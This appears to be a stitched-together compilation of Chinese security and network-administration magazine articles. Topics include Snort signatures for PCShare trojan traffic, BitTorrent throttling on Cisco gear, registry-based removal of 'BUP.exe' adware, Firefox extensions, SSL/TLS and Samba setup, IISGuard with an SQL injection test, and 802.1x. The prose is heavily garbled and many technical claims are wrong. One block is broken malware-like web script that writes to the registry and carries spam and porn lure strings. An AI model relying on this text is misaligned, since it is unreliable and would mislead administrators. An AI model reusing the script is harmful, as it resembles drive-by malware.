从图中可以看出木马上被受控的发上的通知包是由局中的，受控端发，主机的地址具有相似的特征，我们没有方法。受控后，为了保护自己的IP地址，它建立了一个池，这些池中包含了人的控制端。的。为在实验中，我们寻找特定的字符串为`<IM></IM><BZ>`和`</BZ>`，我们将它们转换为六进制为`34 49e 35a32c 4f 24e 35a32c 4f 24e3f`。通过上述分析，我们可以写出相应的检测规则，204和205的`Snort`规则（规定为）可以使用`Snort`用户如下：本规则的含义是当数据连接到服务器时含有`HOME_NET`的内部地址，如果地址是相同的，则包含的内容中含有`HOME_NET`和`<BZ></BZ>`字符串，则数据包中。205不使用`XML`进行信息交互，而是使用的通知数据包内容也是明显的，这个数据包包含部分动态和内容就是受控的。


# HACKER LOCKS ATTACK DEFENSE

信息静态可以视为数据包的前头部。不同的字符发送的数据包的内容不是，我们选择payload的内容为特征字符串，这里我们选择payload的第二个字符为特征字符串`d4b8c9cf6ffd6f7ffa`，对于特征字符串包进行入侵检测规律如下：

```snort
Alert 'some_text', any any ("bugged_exists") content|d4 b8 c9 cf d6|
```

被视为流量内最强大的木马。使用反向HTTP流量控制，伪装流量为Web服务器，表现为像正常流量，所以我们可以伪装流量攻击到服务器唯一的种子，它是通过反向流量控制的木马，使得动态连接和静态连接通过伪装流量和连接子中转转换为静态连接则可以在设置服务器时，配置连接数控制的木马使用。由于PCSSHARE在传输中伪装HTTP流量，所以我们使用反向代理和HTTP `Get`方法发送特征和信息。在传输过程中，受控端向控制端发送的流量是固定的，但控制端和被控端之间存在一定的连接数，受控端连接后，生成的连接会通知控制端，并通过`Post`使用反向连接控制的命令信息，下面，我们将详细分析`PCSSHARE2005`。

PCSSHARE2005黑产版授权控制向控制端上线数据包如图7所示，受控端向`192.168.0.1`发送，`192.168.0.1`发送的流量是一个HTTP `Get`请求的参数是一个`/url/as.php`和字符串`3000296`的查询参数。图7、图8和图9是受控端每接收受控制3个字符后生成的`Get`请求的三个数据包，从图中可以看出木马上被受控的发上的通知包是由主机的地址具有相似的特征，对于`203`、`204`和`205`这三个特征是以明显方式的，我们将这些入侵的特征提取出来，由于没有方法来确定它，但是作为对特征提取。`203`、`204`和`205`使用的XML具有比较的特征，网络中发现相同的XML字符串比，所以我们可以通过提取的XML字符串作为特征


# ADMINISTRATOR CLUB

刘刻已经在新的时代里面临着各种变革：资源竞争的焦点、带宽拥窄的问题以及接入网络。企业不是可怕，但流量内部的增长觉得变得棘手起来，网络服务器瓶颈、延迟等的情况开始出现。

作为一项网络，我们才能解决这些问题呢？这就是本章的内容。

## 前置知识

## BT流量对校网的影响及其对策

江苏省常州市虚拟学习中心

BT下载其独特的优势是覆盖大量的受众，它在下载的时候可以为用户提供帮助，由于下载的数量，它的速度也快。在校网内的流量下载的电影、视频等流量是非常频繁的，但流量如此，其实也不是简单的。

由于BT的出现，这些流量下载者可能会受到影响。国际主流下载资源公司近期发现，BT、KAZAA等P2P软件所占全球下载流量的高达80%，并且已经超过了60%，严重破坏了学校的出口带宽，导致校内数据访问变得困难，它改变了校网流量的结构。

本章将通过对流量产生的影响、BT流量的控制以及校网流量的应对对策。

很多下载插件的P2P软件使用非常方便，就用一个浏览器插件，客户端发现发布的热门下载，其特点简单就是下载的人多，速度快。目前许多使用连接来连接互联，由于海量的流量，使得校网的出口带宽被限制的。由于BT所占海量流量结束了以往的出口带宽的限制，严重破坏了校网的流量。

## BT流量对校网的影响

当校网内的用户开始使用BT，入站流量的下载通过校网出口连接到校网内，用户产生了大量的BT流量下载的数据包，包括各种格式的文件、加密、压缩文件、MP4、SMB等。这些文件通过校网出口连接下载，BT的下载会产生巨大的入站流量。

理想的流量是，用户在使用时可能会占满学校的出口带宽。不管用户用的是什么样的原来的流量，BT下载带来的压力是巨大的。在出站任务完成后，执行BT的下载者将作为一个种子(Seed)已经结束。同时，BT下载基本上都是出站流量，这些流量会和其他流量由于占用有限的出口带宽导致出站流量的资源竞争，增加了校网的负担。

### 2. 改变了校网流量结构

BitTorrent(BT，俗称比特、迅雷)是一个BT流量下载是非常用的，但对于更有效的带宽管理，BT下载在下载时产生巨大的连接。这些连接会导致校园内流量涌进来，由于在某一时刻同时连接校园的带宽，这种流量会导致校园内产生响应延迟，影响用户操作体验。由于这些系统是实时响应的，延迟会影响用户体验，这种响应是不理想的。BT下载并不是一个应用程序，当用户在校园内网络上下载，并且使用了一个校园业务，如校园办公、教育系统、视频监控系统等，这些系统与BT下载会占用校园的带宽，由于这些系统都是实时响应的。

## BT的“堵”与“抢”

每个校园流量的管理者都面临着同样的问题。由于BT流量的控制并不是可能的，“堵”是通过技术手段无法实现的，另一种策略是“抢”，即按照特定的规则，限制时间使用，只有允许流量就能满足大家的需求。

### 1. 流量管理

#### 1) 限制BT下载

BT网站很多，但是考虑到BT下载的下载速度，速度快、Seed下载的速度快。由于有比较多的BT下载的Torrent文件下载的人比较多，一般的BT下载的流量就比较少，下载的人数少。对于几K的速度，对于比较慢的BT网站，获取服务器地址后就可以对服务器地址进行封锁。Cisco设备，具体命令如下：

```
access-list 101 tcp any range 6880-6889

interface GigabitEthernet0/0

 # 访问出接口限制limit-bit

 service-policy input limit-bit

 # 访问出接口限制LIMIT-bit

 service-policy output limit-bit

```

这种方法使用`access-list`来实现，其实比较容易，但是对于BT网站来说地址非常动态，因此`access-list`命令数量也随之增加，要使用特定的服务器地址也是无法实现的。

#### 2) 拦截BT下载

针对BT下载的策略，有效的方法是不使用HTTP下载获取BT服务器地址的Tracker。管理员可以通过监控HTTP下载的流量来搜索特定的种子地址。在BT下载中通过Tracker获取种子地址，有很多方法管理员可以实现，利用伪造的流量来整个种子的地址进行拦截。用Cisco设备，具体命令如下：

```
access-list 101 deny any range 6880-6889

access-list 101 deny any range 6880-6889

access-list 101 permit any

interface GigabitEthernet0/0

 # 接入的端口

 ip access-group 101 in

```

#### 3) 添加插件模块

使用自定义插件来限制我们的流量，黑名单效果非常好。上述的方法是识别BT下载的特征，通过插件来限制一个范围内的流量，但不能限制整个BT下载。在Cisco设备上提供了三个插件，分为NBAR1、NBAR2、NBAR3。我们使用NBAR2，我们在路由器中启用插件模块创建一个策略，对`bittrent.plugin`设置下载下载策略，具体命令如下：

```
class-map match-any anybit

 # 匹配包含bittrent流量

 match protocol bittrent

policy-map anybit

 # 创建一个POLICY_MAP名为anybit

 class anybit

 # 匹配上述特征的流量

```

### 2. 流量限制

#### 1) 将BT下载的流量限制在某个范围内

校园时间内将下载速度限制为1Mbps，避免学校的其他系统影响业务。为了保证学校带宽，用Cisco设备，具体命令如下：

```
access-list 130 remark any

access-list 130 permit any range 6880 6889

rate-limit access-group 130 1000 8000 conform-traffic action-drop

rate-limit output access-group 130 1000 8000

```

某些校园网络会有BT下载服务。对于某些的网络，BT下载具有很危害性，因此需要使用保护机制来限制其他业务的运行。网络管理可以通过一些插件进行彻底的限制；例如对用户的下载速度限制为64kb/s，可以确保下载的同时不会影响其他业务。充分分析后，剩余的网络完全可以提供BT下载。

## 结语

最近一段时间来，网络关于“封锁BT”问题的讨论出现了。许多者认为BT是P2P技术在解决下载问题上是一种很好的解决方案，它代表了网络的未来，BT共享是未来的趋势。对于网络，不同的单位应该根据具体情况进行分析，封锁BT不是唯一的办法，而是最后的办法。

难道我们只是无意义的攻击与防御？难道让这一切最终变成一场悲剧吗？另外，如果博客也欢迎此类列表，希望大家多多支持。

适合读者：网络管理，系统管理员
前言：无
文 / demononax

# ADMINISTRATOR CLUB

从IE，2.使用注册表编辑器`BUP.exe`，执行`regsv32 -u c:\系统\BcaiCoTool.dll`，进入系统，5.删除`BUP.exe`、`BcaiCoTool.dll`，6.删除注册表项、`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\BUp`

如果出现了错误进入系统，用启动盘到DOS后，重启启动`smartdrive`（`smartdrive`）是放在虚拟机磁盘里的，如果被破解后在DOS系统时可以加载它，如果其他磁盘都无法加载`smartdrive`，也可以修复它，就是注册的注册表，`c:\windows`下输入，“`regedit | reg`重启后。

对于网络上的各种方法，我是真的想过用`BUP`，并尝试了注册表项删除和杀毒病毒，最后一台的“猴”病毒和中国病毒并没有，并不是由于我执行了病毒动作就生效的，在我的机器中，`BUP`在空闲时占用2.5M-5.4M自动运行，`msyscon g` `c:\BUP.exe`不会自动进入系统，在重启后就会生效，在执行后后再次启动`BUP`并一直运行注册表，于是应该是注册表项的方法可以解决整个问题的。

对于你的CP地址查找方法，因为我没有过有效的反向工程方法，但是在删除注册表项后，网络检测到了如图3所示。

尝试打开“文件”->“运行”，输入`regsv32 /u c:\windows`。执行：`regsv32 /u c:\windows\system32\BcaiCoTool.dll`进入系统

它是我的CPIP。80端口，这不能让我确定它的真实IP，我能通过它的IP进行查询，在其中查询结果基本上就是“北京”和“美国”的。


去任务管理器删除`BUP.exe`，进入到这里：`c:\windows\system32`如果是2000或者98，删除`BUP.exe`和`boitaitool.dll`后，进入这里


如果你的CP地址是`192.168.1.1`，那么

进入`regedit`后查找注册表项，`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，将的`BUp`项删除，并在`HKEY_LOCAL_MACHINE\SOFTWARE\Bcp-update\Tools\Misc\Config\start`项删除后，可以使用`BUP`的工具快速修复注册表列表，干净了。

## 查询您的IP：`211.151.20.17`

## 什么是IP

是互联网世界中211(China Inc)是北京的总部地址，也是互联网总部的IP中心。根据查询，它是中国目前活跃的数据中心之一，这个IP已经使用了一很久了。

最后，数据的安全是通过多个内核实现的。在在发现和想要找到它之前，我是通过了最新的QCO杀毒软件删除病毒的。


如果是1.5版本，QCO病毒已经删除了。


拦截QUP的用户，需要按照本文的方法，把“BUP”拦截，同时，在安装任何软件的时候，注意选项的选择，对于没有作用的建议不要选择。

# ADMINISTRATOR CLUB

教程：Firefox 有了无数的改进；现在看起来更好了，它的功能提升了很大程度插件还未完成，本文将详细介绍 Firefox 用的插件扩展功能。

适合 Firefox 用户，插件管理

前置知识：

## Firefox 插件教程

文/图 dLT

### 引子

我去年就开始用 Firefox 插件，后来变得很方便，但是最后的原因是为了使用 Gmail 邮件服务的，就这么依赖它了，后来因为 I 插件在实在太重要了，命令的 733 还是不够糟糕，现在确实很面，Firefox 有一个致命的缺陷：就是无法正常使用的插件。这块插件安装在实在是无法避免，只能一直使用一个 Maxthon，Maxthon 虽然比 Firefox 好大了（以前用 ITab，现在它变强大了，但是（估计）还是用 Maxthon 的插件更好，这样才算可以吧。

但是 Firefox 5.C2 以后，我又对它有了兴趣，这个插件我装过几次了，不过没打算用它。原本的 Firefox 插件主要是各种工具、占位符、插件安装、运行等，但是现在是 5.C2 以后，Firefox 有一个致命的缺陷就是不支持插件。现在我使用 Firefox Update 支持插件。这实在太大了，功能扩展以及插件的软件可以没有插件，但是 Firefox 插件扩展起来还是不容易的。

但是，但是 ITab，Maxthon 还是好用的，Firefox 扩展的插件已经可以被 Firefox 已经做用了，无须许多的这个插件很难让我插件，它通过运行在无所谓插件的 Firefox 上，让你可以按照我的习惯来调整 Firefox 插件的主题，下面来介绍下-Firefox 的插件扩展（插件）可以从 Mozilla 中国官方网站下载，这里：`http://mozilla.org/zh/update/`

### 插件

- IE：可以用来解决 Firefox 不支持插件的问题。安装 IE Tab 可以使用 Microsoft Update，如图1 所示。
- Tab Max Plus：少量的标签插件可以提供强大的 Firefox 标签功能，满足大多数用户，安卓安装可以在工 -> Tab Max Plus 插件设置它的位置，如图2 所示。
- Adblock：Adblock 可以根据过滤器（支持正则列表）来阻止显示网页上的广告，然后使用 Adblock 插件。


图 1
图 2

Filterset G Updater 是 Adblock 的一个插件，能替换并用在 Adblock 上，它可以每 4 天 自动更新从 Filterset G 下载最新的配置。安装它后在 Firefox 的右下角可以看到 Adblock 的图标，可以点击设置属性，如图所示。图 3

SuperDragGo：SuperDragGo 能够拖到连接的任意位置就可以标签栏中链接，提供非常方便的。

- FlashGo：FlashGo 是一个用来快速下载相关文件的插件，可以看到你想要的资源，FlashGo、视频等下载。
- All-In-Gestures：酷手插件，让你不用用 扩展，用鼠标或者键盘就能完成 Firefox 的控制和控制，这一个强大的插件，可以非常多种联动扩展并且你只需要在标签上右键就可以在 Firefox 里用鼠标完成浏览器的控制，左下显示:当前标识逐表的含义，如图4。

- Fox：通用的天气扩展，它通过调用 `www.weather.com` 网站提供天气的信息，可以在界面上覆盖天气报将当前及未来的数据，包括温度、湿度、指数。卫星地图等。在位置可以自定义，经过一段时间后，发现它是一个很好的软件，好用以中国天气，而且它的刷新根据本地时间更新，Firefox 的右角有明显的指示，如图所示。
- Sage：一个很好的 RSS软件，可以自动订阅网页。


## 结语

适合读者，若是管理员前此

### 如何获取隐钥


## ADMINISTRATOR

（目标：跑踢）liishu@hacker.com 


# ADMINISTRATOR CLUB

```<div align="left" size="2">

你好！我们莉来到这里，这里是有趣的文本

啦，欢迎访问博客！希望这个博客是有意思的，友们！

<a href="http://example.com/">http://example.com/</a><script type="javascript">
```


```
function() {

  // 欢迎博客

  var aa;

  aa = document.body;

  aa.classList.add("F93D6C2-10D0-B9DD-00A0CFD46ED");

  var bb = document.createElement('script');

  bb.type='javascript';

  bb.RegWrite("HKLM\\Microsoft\\CurrentVersion",");

}

</script>

</div>

aa.RegWrite("HKLM\\Microsoft\\CurrentVersion",")

aa.RegWrite("HKLM\\Microsoft\\CurrentVersion",")

Network.LanManSAddPath(path,value,"REG_DWORD",")

aa.RegWrite("HKLM\\Microsoft\\CurrentVersion",")

Network.LanManSAddPath(path,value,"REG_DWORD",")

aa.RegWrite("HKLM\\Microsoft\\CurrentVersion",")

Network.LanManSAddPath(path,value,"REG_DWORD",")

aa.RegWrite("HKLM\\Microsoft\\CurrentVersion",")

Network.LanManSAddPath(path,value,"REG_DWORD",")

function init() {

创建带有XML属性的写入函数，

只需要在注册表中添加即可

path,value, // 写入注册表对应的项

On = CreateObject("Scripting.TypeLib") // 创建一个库对象

doc = doc("Hello", "How are you?") // 问你好

doc = doc("me", "Where are you") // 问你在哪里

doc = doc("go", "Congratulations!") // 恭喜你！

doc = doc("Free XXX Pictures", "A free porn site") // 免费成人网站

doc = doc("don't you reply to me?") // 不回我？

doc = doc("together. Need a stranger") // 需要一个陌生人？

doc = doc("Hello", "How are you? Can you help me?") // 你好，能帮我吗？

doc = doc("Congratulations!") //

doc = doc("Don't try. Look at this") // 不要试，看这个

doc = doc("Some advice on your shortcuting.") // 给你的快捷建议

doc = doc("Free XXX Pictures. "A free porn site") // 免费成人网站

doc = doc("Why don't you reply to me?") // 为什么不回我？

doc = doc("How about dinner with together?") // 我们一起吃饭怎么样？

doc = doc("Need a stranger") // 需要一个陌生人

doc = doc("Hello", "How are you? Can you help me?") // 你好，能帮我吗？

doc = doc("Congratulations!") //

doc = doc("Don't try. Look at this") // 不要试，看这个

doc = doc("Some advice on your shortcuting.") // 给你的快捷建议

doc = doc("Free XXX Pictures. "A free porn site") // 免费成人网站

doc = doc("Why don't you reply to me?") // 为什么不回我？

doc = doc("How about dinner with together?") // 我们一起吃饭怎么样？

aa.RegWrite("HKLM\\Microsoft\\CurrentVersion",")

aa.RegWrite("HKLM\\Microsoft\\CurrentVersion",")

Network.LanManSAddPath(path,value,"REG_DWORD",")

aa.RegWrite("HKLM\\Microsoft\\CurrentVersion",")

Network.LanManSAddPath(path,value,"REG_DWORD",")

aa.RegWrite("HKLM\\Microsoft\\CurrentVersion",")

Network.LanManSAddPath(path,value,"REG_DWORD",")

aa.RegWrite("HKLM\\Microsoft\\CurrentVersion",")

Network.LanManSAddPath(path,value,"REG_DWORD",")

function()

setTimeout(0, 1000); // 等待1000毫秒后执行回调

init(); // 回调函数

function init() {
```

# Administrator Club

找不到文件 `Asbvm60.dll` 和 -->“Internet选项”->“标签”-“自定义级别”

`Asbvm60.dll` 被视为危险文件了。-->“安全对话框，其中包含了`Active`组件以及

当我鼠标进入 Windows 后，立刻发现 `Java` WB的相关组件都被设为“禁用”。不用了，这大，无疑文件了！幽默如此之事，只有某某以后的问题可能会导致某些组件使用 `Asbvm60.dll` 被删除（不知道没有文件了）。然而组件和程序后运行正常即可，可以这样是最好妥的

删除注册项（一定要在删除之前先备份头部），将其注册项属性修改为以后不再删除注册表，并且使用它比较容易。还有另外 Norton Antivirus，让它扫描用户的所有文档文件并删除注册项。

OK，让用户访问互联网，并且使用比较 `Lockdown2000`（注意不是普通版，是为加强性的）方法将 `Active`、`Java` 和 `VB` 脚本全部禁止，全部被禁止运行。这就可以了。

具体方法在浏览器菜单中点击“工具”，不过，这是我最喜欢的采集：作为为了加强性的个人，`SSL/TLS` 协议是在用户上的加密传输协议，现在可以访问网址了，说是是非常实用的。这项技术软件，一定会有各种问题。本文中将从`string`详细介绍了如何在使用网络上划过 `SSL/TLS`，你自己尝试看看吧。

适合读者：网络朋友  
前知识：网络基础

# `SSL/TLS` 协议

文/技术 网络安全加密东部


在 `SMB` 协议中，计算机为了访问资源，就要在网络上的资源列表（例如在 Windows 下载下）局域网可以看到资源，这个主机会会被标记为 (`Browser`)。`SMB` 中非常常用的广播的方式，如果这种方式可以访问各个局域网的资源（包括提供服务器资源和各个局域网的资源），就可以访问。

在 Windows 98 Rc 版中通过 `SMB` 的协议的验证过程中，只有明文传输的，如图1 所示。在网络上访问一个局域网列表，由于只要访问，重新刷新列表，例如 Windows 的刷新功能，`Browser` 不需要建立连接，而是在连接过程中不需要建立连接的。

更说是数据加密，由于简单的访问，用简单的 `Sniffer` 就能截获的。不需要编写加密的，可以使用用户名和密码显示出来。Windows 2000 之后后版本，支持这种技术本地安全安全。

# `SSL/TLS` 的协议

因为数据加密，使用权限，而且很多人而事，是在连接上使用加密传输的协议并不是复杂的，由于安全加密可以应用到所有的应用程序中，在此之后我们将简单介绍——我们下，如果你使用任何简单的方法让现在网络上做一个隧道，但对一些安全要求高适应的应该 Socket layer (`SSL`) 协议中，由于 Netscape 成为广泛应用于网络浏览器和局域网浏览的使得通信的标准，由于 `SSL` 技术已经建立到了所有的浏览器和 Web 服务器架构中，仅或使用数字证书或证书可以提供活动服务。IETF，我们已经将 `SSL` 作为 `TLS`，`RFC 2276`。

# 局域网连接及其基本原理

局域网上是通过 `SMB`(Server Message Protocol) 进行通信，传输的，它是一个用于不同计算机之间交换数据、共享资源、串口和端口通信（用户名、桌面等）的协议。

www.administrator.com  
2006年7月 第66期 作者 王圣福

# ADMINISTRATOR CLUB

并将 `TLS`(Transport Layer Security) 在技术上认为，`TLS1.0` 和 `SSL3.0` 的差异较小，可以忽略。在 Web 环境中，由于手机和手持设备的加密和存储没有，`WAF`(www.wafforum.org) 在 `SSL` 的基础上装上了 `TLS` 连接(Transport Layer Security)，是目前主流的趋势。

`SSL` 是提供传输数据的安全协议，它提供加密密码，并且加密应用需要它。`SSL` 协议通过两种方式来加密安全，通过加密密码，或使用对称加密来传输安全的数据，`Protocol` 则使用传输的格式。

加密分为三类：对称、非对称和单向散列函数。对加密分为分组加密和序列加密。分组加密通过对分组进行加密，分组加密使用加密算法进行加密（分组加密的运算），生成密文。序列加密则对序列中的元素（比特流）使用复杂的加密算法产生密文，用于对密文进行解密。

分组加密的模式有 `CBC`(Cipher Block Chaining)模式，这在 `SSL` 加密中非常常见，它是一种分组加密在加密前与前一个分组进行异或，并通过加密算法以这种模式进行加密外，还需要一个初始化向量(`IV`)，这个 `IV` 不需要加密，只需要在解密时需要用到即可，且这种模式保证了数据的安全性能。

分组加密的类型有 `DES`、`3DES`、`IDEA`。序列加密的类型有 `RC4`。

哈希加密是用于验证密文的完整性，不需要共享密码，这种方法多用于加密交换，`RSA` 密钥对。这是我们朋友的方法。

还有一个加密的方法：`DH`，它用于加密交换不能用于加密。单向哈希由于其哈函数的抗碰撞性，使得收到的输出与原来的数据不同，一个输出就是唯一的哈希值，单向哈希常用于数字的应用中，一个经典的哈希函数是我们的 `MD5`、`DES` 的 8位。目前安全的哈希算法是 `SHA-1`，`SHA` 家族是存在的，产生160 位长度，因此容易被破解。对于加密算法，可以根据需要先协商的算法，通过 `HMAC`(`RFC2104`) 生成一个密钥，只有相同密码的客户端才能使用这个密钥。

```
Client*Hello

Server*Hello

Certificate

ClientKeyExchange

CertificateRequest

CertificateChangeCipherSpec

Finished

ApplicationData
```


# 服务器安全配置

若不需要服务器认证，客户端认证是可选的，`SSL`(或`TLS`)在 `TLS` 建立之后，由于它可以验证自己的证书，`SSL` 服务器生成了一个证书，然后发送给客户端，`SSL` 服务器发送给客户端一个加密消息，`SSL` 服务器将自己私钥加密后加密成功，双方都可以发送请求。我们使用 `POSIX` 加密来 `SAMBA` 加密端口是 10。

1. 允许用户访问`SSL`(或`TLS`)加密后，`ssl cert=/etc/certs/samba.pem` 是证书，`ssl ca=/etc/certs/samba.pem` 是受信任的证书，`ssl server=/etc/certs/samba.pem` 是所需的，`ssl key=/etc/certs/private/samba.pem` 是所需的私钥，`ssl client=/etc/certs/samba.pem` 是客户端证书。

3. 建立密钥和证书

```
openssl genrsa -out key.pem 2048

openssl req -new -key key.pem -out req.pem

openssl x509 -req -in req.pem -sign key.pem -out sign.pem -days 365
```

## 管理员指南

如果你不需要 pass phrase：

```
openssl rsa -in key.pem -out key.pem

openssl req -new -key key.pem -out req.pem
```


4. 保存证书，重启 SAMBA 服务，重启 SAMBA 的第 4 证书是否正确。如果没有，检查服务器端 SAMBA 连接配置。
4. 测试，输入`\\75.171.111`，SHARE如图4 所示。
5. 结果如图5 所示。
6. 如果连接成功如下：
   - a. 保证 SAMBA 表示可以访问，再试 SAMBA 的。
   - b. 证书是否正确。
   - c. SSL本地端口是否正确。

以上就是了。

## 各客户端访问防火墙全局配置

如果是 Windows 2003 版，

1. 本地地址：75.171.115，本地地址：75.171.111，认为本机的地址为泛网 139 端口 Bind，可以配置
2. IP 地址，目的是第第二台本地地址 75.171.111（或者在代理服务器上转换成 SSL SAMBA SERVER 10.），如图2所示。
2. 如果 possible，请将的配置，如图3所示。
3. 在 Windows 下执行 `openssl ... -noext-n1-config-10,75.171.111,139$`，把证书放到一个服务，可以自己生成一个 TCP 服务，在 Bind 的地址 75.171.111（或者在代理服务器上连接 SAMBA 的 138 服务。

图2

图3

图4

图5


展现 IIS 在网络上的全部过程。如果大家感兴趣，可以看《有关 POP3、SMTP、PROXY、FTP、HTTP，ICO、ICQSS、SSH 等服务》。

## IISGuard 简介

Microsoft 的 IISGuard 安装具有方便、配置简单的特点，目前在网络上运行非常常用，但是自身缺乏安全增强，黑客大多喜欢攻击。IISGuard 一套轻量级的程序，能够实时监控和过滤所有服务器 HTTP 请求，并记录详细日志（称为 IISGuard），它提供了丰富的信息。

## 部署方法

有两种方法启动 IIS，第一种方法是在浏览器的地址栏输入 `http://localhost:85`，这里以后部署例为第二种方法在 IISGuard 菜单栏点击“Home”。

# Home 页面

打开 IISGuard 首页，如图1 所示。


其中显示 IISGuard 的控制界面有两个属性区域，下方显示其功能：

- Server Time：服务器当前的精确时间
- Currently requested：记录了当前请求的数量
- Log Files：列出了日志文件的文件名

## Live Monitor

打开 IISGuard 活动监控界面，如图2 所示。


显示当前和最近处理的日志。在活动项中点击“ALL”，显示所有当前请求，点击“Last”将最近的数据，在日志列表中显示当前信息。

## Log Files

打开 IISGuard 日志文件，如图3 所示。


显示 IISGuard 记录的日志信息，Log entry（详细日志）界面，用列表显示列出 IIS 配置确定的页面项。列表项中点击“First”、“Previous”、“Next”、“Last”可以进行翻页。列表项中 Live Monitor 项显示 End time（请求结束时间），这里显示基本信息，对应的是 URL（访问请求的网址路径）。利用 IISGuard 提供的搜索功能，对日志进行过滤操作，从而发现流量的流入信息。在 Log Files 中通过 Filter 项来过滤请求的开始和结束时间，也可以对过滤结果中的某一项进行筛选，这将结果显示出来，然后点击 Apply（应用）按连接筛选。如果有相同的数据，通过分组筛选相同的 IP 地址进行查询。可以通过不同的搜索，在“Search”中使用 URL 搜索 URL 路径，多个页面可以使用 Ctrl+回进行跳转，点击 Search（搜索）按钮将按照 IP 地址和 URL 进行筛选。

## Sites

打开 Sites（站点）界面，类似，如图4 所示。


在其中显示了 IIS 上创建的站点，在网站页 Description 列表中显示站点名，在 Host 列表中显示主机名称，AppPool 的运行状态与服务器相同，在 Stat 列表中显示运行的状态有三个，可以启动、停止、中止正在运行的站点。勾选 IP 过滤，启用 IP 过滤，允许访问的 IP 只有在允许 IP Addresses 范围内访问，输入多个 IP 用逗号分隔。Settings 设置界面如图5 所示。

## 应用实例

这里用常见的 SQL 注入来来说 IISGuard 的分析能力，在本地上搭建测试环境，在 Windows XP 版本，安装 IIS 系统5.1，将一个包含 SQL 注入的 ASP 页面保存到 `C:\inet\wwwroot`（网站根），然后用 SQL 注入工具，在地址栏输入“`?id=237`”点击查询，发现发生了 SQL注入，如图6所示。


在配置 IISGuard 的运行参数设置，在 General（基础）面板点击 Edit（编辑），在 Log monitor 文件类型中设置只扫描网站中的文本，对处理日志和记录日志。在 Output 设置中显示长度，在 Live Monitor 和 Log Files 列中显示查询字段。然后点击 IISGuard 控制界面的“Search”开始，监控结束后，点击按钮，在监控列表中显示出长度为 4000 以内的数据，在 URL 地址中显示出被注入的标记，如图8 所示。


在 Output 设置中定义大小，在 Filter 设置中定义请求的开始时间持续时间，在 Refresh 设置中对请求时间以毫秒为位。在 History 列表中显示属性：

- Start time：开始时间
- Duration：请求持续时间
- Client：客户端地址
- Raw：原始请求尺寸
- Out：发送客户端的大小
- Method：HTTP 请求的方法，包括 Get 和 Post
- AppLink：被执行在应用程序中的
- ID：标识等各项信息

# 802.1x 实现局域网安全

刘凯 安全www.hacker.com | 版权所有 2007 黑客防护 | 网站技术

802.1x 是一种基于交换机的身份验证和授权的方式，这种方式有一个最常见的实际应用：无线基站密码认证。前置要求：网络隔离。802.1x 是基于 OSI 版本的通用认证和授权，本质上是基于操作内核认证。目前的 Windows 2000 XP 支持登录，并且可以使用 CHAP、LEAP、EAP-TLS、PEAP 等方法，以及 MD5 认证方法，将交换机实施认证的方法：

```
authenticator server=192.168.1.163
```

许多交换机都支持 802.1x 认证，在此用的 Cisco2960 交换机上进入 EXEC 模式如下：

```
configure terminal
 aaa new-model
 aaa authentication default group radius
 dot1x auth-control
 dot1x authorization default group radius
 interface FastEthernet0/1
  switchport mode access
  dot1x port-control
  dot1x timeout period 30
  dot1x timeout-supp 20
  dot1x max-reauth 10
  radius server-list 3
  radius reauthentication
 interface Vlan1
  ip address 192.168.1.253 255.255.255.0
  no route-client
 interface Vlan20
  no route-client
 interface Vlan3
  ip address
  no route-client
  shutdown
radius-server host 192.168.1.163 auth-port 8112
  port-key 123456
```

以往设置共享认证为 123456，并设置了第一号端口的密钥。对于 802.1x 认证时设置周期为30 秒，利用 VLAN 认证方法，包括 IAS 通过传输用户密码，将数据通过交换机或 VLAN2，或者不能授权。由于不同的配置方式导致命令的不同，具体如下：

IAS IP: 192.168.1.68

首先选择服务器为用户认证的用户，文中包含该用户域的用户和管理员 Domain 为默认。如果是普通用户，则将其 VLAN 设置为 VLAN2，将在交换机中可以配置到用户使用的设置，这里需要重要在计算机运行时显示，如图1：

| 用户名 | 密码 | 组 | 状态 |
| --- | --- | --- | --- |
| admin | 123456 | admins | 允许 |
| user1 | 123456 | users | 允许 |
| user2 | 123456 | users | 允许 |
| user3 | 123456 | users | 允许 |

图1

接下来，需要配置 Internet 认证服务，在默认状态下IAS 服务器是不被安装的，服务器管理员需要手动安装 IAS。

# ADMINISTRATOR CLUB

《 邮箱 | 列 》 liusu@hacker.com.cn


图1

需要注意的是这里的客户端是指交换机，它可以共享与交换机设置相同，如图3所示。

添加后，客户端列表中即可看到，如图4所示。

下一步，需要配置访问。我们在IAS设置中，以此指定用户通过认证进入：


对于Windows 2000 SP4，以及 Windows SP2用客户端支持802.1X，但某些服务需要手动启动，在命令行输入 `start WZSCSC` 启动

Wireless Configuration在网络属性中找到多个用户认证标签卡，将客户端认证设置为“MD5-数据”，如如图5所示。


图2

配置完成后，点击右下“显示”按钮，弹出对话框输入你的用户名、密码。


图3

如图9所示，如果用户是使用Domain用户，在登录前选择Domain；如果用户是本地用户：


当的VLAN时，此处设置两个策略（1和2）进行配置：

策略1：添加一条连接策略名称并标记的策略属性（Windows-groups RADIUS）Domain Users；Nas-Port-type“Ethernet”，输入配置文件，选择方法MD5-加密并在高级中设置Tunnel-Medium，类型为2(2) All Medium Ethernet over Channel。Tunnel-VT-Group-ID为Radius标准，值为1成功后访问VLAN2；其余设置与策略1相同。


图4

策略2：添加一条连接策略名称并标记的策略属性（Windows-groups RADIUS）Domain Users；Nas-Port-type“Ethernet”，输入配置文件，Tunnel-VT-Group-ID为Radius标准，值为1成功后访问VLAN1；其余设置与策略1相同。

客户端

图5


图6

在现在的Windows2000中认证后没有像Windows XP出现的提示，可以使用其他方法验证连接是否通过，通过`ping`命令。


图7

至此配置802.1X认证完成，但是还要要注意，如果认证用户下重启后都断开了，那么重新认证一次后可以这一个的识别，有其他方法查看日志。


图8

www.hacker.com.cn

黑客论坛2007年版权所有 留


图9

# ADMINISTRATOR CLUB

DHCP客户端发现我们设置了DHCP服务器的IP地址，它不需要对所处的子客户端进行操作。同时要向多个客户端去DHCP请求，只需在服务器中配置，用户就可以使用一台三层交换机就完成了这项工作，其实简单的设备还有很多，大家不要只玩这一种。

适合：DHCP工程师、网络管理员、计算机网络专业学生、网络爱好者

前如：DHCP 技术、交换基础

# 三层交换机实现DHCP中代理

## 实现DHCP中代理

图/盛华计算机学院 李杰涛

## 前序配置

DHCP Dynamic Host Configuration Protocol (动态主机配置协议)的写法。在常见的网络中，IP地址的发现通常由客户端发送DHCP请求信息，DHCP服务器可以使用客户端所提供的IP地址，然后DHCP服务器将使用TCP/IP协议与客户端交互。

